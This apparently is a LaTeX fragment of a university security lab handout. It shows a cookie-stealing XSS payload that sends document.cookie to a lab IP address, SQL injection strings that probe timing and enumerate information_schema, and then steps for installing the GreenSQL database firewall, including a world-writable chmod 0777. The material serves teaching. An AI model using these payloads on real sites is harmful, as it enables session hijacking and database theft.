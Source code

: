 {\scriptsize
\begin{verbatim}
<script>var i='<img src="http://192.168.56.101/'+document.cookie+'" />'; document.write(i);</script>
\end{verbatim}


}
\begin{verbatim}
1' union select BENCHMARK(100000000,ENCODE('hello','goodbye')),1; # --
2' UNION SELECT TABLE_SCHEMA, TABLE_NAME FROM information_schema.TABLES;# --
3' union  select TABLE_NAME,COLUMN_NAME from information_schema.columns; # --'
\end{verbatim}



\section{Installation of SQL Application Firewall}
Install the GreenSQL database firewall.
\subsubsection{Installing GreenSQL from pre built package (FOR BEGINNERS)}
\begin{verbatim}
wget http://elab.itcollege.ee:8000/Day3/greensql-fw_1.3.0_amd64.deb
dpkg -i greensql-fw_1.3.0_amd64.deb
apt-get install -f

#Modify existing virtualhost or create new virtualhost.
cd /var/www/
ln -s /usr/share/greensql-fw/ greensql

cd /var/www/greensql
chmod 0777 templates_c
\end{verbatim}

\subsubsection{Installing GreenSQL Open Source frou source code (For Advanced Students)}


Download and install the \emph{greensql-fw}
\begin{verbatim}

wget -O greensql-fw-1.3.0.tar.gz \
 "http://elab.itcollege.ee:8000/greensql-fw-1.3.0.tar.gz"

#Extract source code
tar zxvf greensql-fw-1.3.0.tar.gz

#Install pre requirements
apt-get install flex
apt-get install bison
apt-get install devscripts
apt-get install debhelper
apt-get install libpcre3-dev
apt-get install libmysqlclient-dev
apt-get install libpq-dev
#Build deb package (In this case it fails. Find out why.)
./build.sh
#Install package with dpkg
dpkg -i greensql-fw_1.3.0.deb
#Modify existing virtualhost or create new virtualhost.
cd /var/www/
ln -s /usr/share/greensql-fw/ greensql
cd greensql
chmod 0777 templates_c
\end{verbatim}

